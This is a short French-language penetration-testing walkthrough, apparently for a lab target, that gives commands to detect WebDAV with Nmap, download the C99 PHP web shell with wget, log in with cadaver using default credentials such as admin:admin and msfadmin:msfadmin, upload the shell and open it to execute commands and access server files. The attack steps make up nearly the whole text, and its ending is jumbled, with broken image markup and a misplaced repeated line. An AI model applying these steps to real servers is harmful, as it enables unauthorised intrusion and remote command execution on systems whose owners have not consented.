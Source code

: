 Vérifier si WebDAV est activé:

Scanner avec Nmap
```bash
nmap -p 80 --script=http-webdav-scan 10.6.0.7
```
Si WebDAV est actif, tu verras :
WebDAV is enabled

Télécharge le C99 PHP Shell avec wget :

```bash
wget https://raw.githubusercontent.com/phpwebshell/c99shell/refs/heads/main/c99.php -O c99.php
```
Cela va enregistrer le fichier c99.php localement.

Utilise Cadaver, un client WebDAV, pour envoyer le shell à la cible.

```bash
cadaver http://10.6.0.7/dav
```
Si le serveur demande un login, essaye :

admin:admin

msfadmin:msfadmin

webdav:webdav

Une fois connecté dans cadaver, tape :

```bash
put c99.php
```
Si l’upload réussit, vérifie avec :

```bash
ls
```

Dans ton navigateur, ouvre :

http://10.6.0.7/dav/c99.php

![Cela affichera l’interface de C99 Shell, qui te permet]![Texte alternatif](images/photo.jpg)(PENTEST\Images\davweb.png)

Si WebDAV est actif, tu verras :

D’exécuter des commandes (system, exec, shell_exec)
D’accéder aux fichiers du serveur
D’uploader et télécharger des fichiers